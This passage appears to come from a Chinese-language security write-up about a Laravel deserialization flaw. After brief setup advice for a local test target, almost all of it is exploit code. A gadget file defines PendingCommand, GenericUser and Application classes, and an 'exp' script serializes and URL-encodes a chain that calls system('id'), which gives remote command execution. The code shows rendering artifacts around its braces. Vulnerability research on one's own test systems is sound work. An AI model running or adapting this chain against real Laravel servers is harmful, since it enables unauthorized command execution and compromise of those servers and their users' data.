 若是访问不了127.0.0.1/vul，则可能需要修改Apache的配置，使其允许路由，可参考[Ubuntu Apache2开启mod_rewrite解决laravel路由失效问题](https://blog.csdn.net/wuhengde/article/details/49535343)

payload

```
&lt;?php
//gadgets.php
namespace Illuminate\Foundation\Testing`{`
    class PendingCommand`{`
        protected $command;
        protected $parameters;
        protected $app;
        public $test;

        public function __construct($command, $parameters,$class,$app)
        `{`
            $this-&gt;command = $command;
            $this-&gt;parameters = $parameters;
            $this-&gt;test=$class;
            $this-&gt;app=$app;
        `}`
    `}`
`}`

namespace Illuminate\Auth`{`
    class GenericUser`{`
        protected $attributes;
        public function __construct(array $attributes)`{`
            $this-&gt;attributes = $attributes;
        `}`
    `}`
`}`


namespace Illuminate\Foundation`{`
    class Application`{`
        protected $hasBeenBootstrapped = false;
        protected $bindings;

        public function __construct($bind)`{`
            $this-&gt;bindings=$bind;
        `}`
    `}`
`}`
?&gt;
```

exp

```
&lt;?php
//chain.php
include("gadgets.php");

echo urlencode(serialize(new Illuminate\Foundation\Testing\PendingCommand("system",array('id'),new Illuminate\Auth\GenericUser(array("expectedOutput"=&gt;array("0"=&gt;"1"),"expectedQuestions"=&gt;array("0"=&gt;"1"))),new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=&gt;array("concrete"=&gt;"Illuminate\Foundation\Application"))))));
?&gt;
```
